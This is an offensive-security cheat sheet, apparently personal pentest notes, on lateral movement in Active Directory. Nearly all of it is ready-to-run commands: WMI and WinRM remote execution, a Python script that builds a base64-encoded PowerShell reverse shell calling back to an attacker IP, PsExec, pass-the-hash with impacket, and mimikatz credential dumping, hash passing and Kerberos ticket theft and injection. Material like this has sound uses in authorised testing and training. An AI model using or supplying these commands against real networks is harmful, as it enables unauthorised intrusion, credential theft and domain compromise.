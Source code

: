 # Lateral movements in AD

## Techniques

### Windows Remote Management

#### WMI

Takes a local group `Administrators` account:

##### In `cmd`

Deprecated:
```
wmic /node:$TargetIp /user:somelocalAdminuser /password:somepass process call create "cmd"
```

##### In PowerShell

```
$username = 'user';
$password = 'pass';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString
$Options = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName $VictimIP -Credential $credential -SessionOption $Options
$Command = 'powershell -nop -w hidden -e somebase64string
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine = $Command};
```

For a PowerShell reverse shell (in Python, replace the IP and Port): 
```
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("AttackerIp",AttackerPort); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){; $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i); $sendback = (iex $data 2>&1 | Out-String); $sendback2 = $sendback + "PS " + (pwd).Path + "> "; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte, 0, $sendbyte.Length); $stream.Flush()}; $client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)
```

#### WinRM

##### In `cmd`: WinRS (Windows Remote Shell)
 
```
winrs -r:targethostname -u:user -p:pass  "powershell -nop -w hidden -e somebase64string"
```

##### In PowerShell

```
$username = 'user';
$password = 'pass';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
New-PSSession -ComputerName $VictimIp -Credential $credential

Enter-PSSession $winrm_session_number
```

### PsExec

Pre-requisites:
- user `targetuser` needs to be part of the `Administrators` local group
- the `ADMIN$` share must be available
- `File and Printer Sharing` has to be turned on

Uses Sysinternals: https://learn.microsoft.com/en-us/sysinternals/

```
kali $ rdesktop -u $firstUser $firstTargetIp
cmd > C:\path\to\PsExec64.exe -i  \\targethostname -u targetdomain\targetuser -p somepass cmd
> hostname
> whoami
```

### Pass the Hash

Works with servers and services using NTLM authentication, but NOT with Kerberos authentication.
Impacket-Wmiexec on GitHub: https://github.com/fortra/impacket/blob/master/examples/smbclient.py
```
/usr/bin/impacket-wmiexec -hashes 00000000000000000000000000000000:somelonghashstring Administrator@$VictimIP
```

### Overpass the Hash

First, run a process as a different user with Shift-Right click, say Notepad. Then:
```
kali$ xfreerdp /cert-ignore /u:someuser /d:targetorg.com /p:somepass /v:somehostIp
PS > c:\path\to\mimikatz.exe
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
mimikatz # sekurlsa::pth /user:targetuser /domain:targetorg.com /ntlm:somentlmstring /run:powershell
PS2 > klist # check the cached tickets
PS2 > net use \\otherhostname
PS2 > klist # re-check the cached tickets
PS2 > cd c:\path\to\psexec
PS2 > .\PsExec.exe \\otherhostname cmd
cmd > whoami # targetuser
cmd > hostname # otherhostname
```

### Pass the Ticket

Context:
- attacker connected as user1 on host1
- user2 is connected on host2
Goal:
- steal user2's Ticket Granting Service in memory and inject it in user1's session. Then connect as user1 on host2 using user2's ticket

```
PS > whoami # user1
PS > ls \\host2\someshare # access denied
PS > c:\path\to\mimikatz
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export
PS > dir *.kirbi # file with the tickets
mimikatz # kerberos::ptt ticket_from_the_kirbi_file.kirbi
PS > klist # lists the tickets, user2 should appear
PS > ls \\host2\someshare # access granted
```

### DCOM

## Persistence

### Golden ticket

### Shawdow copies



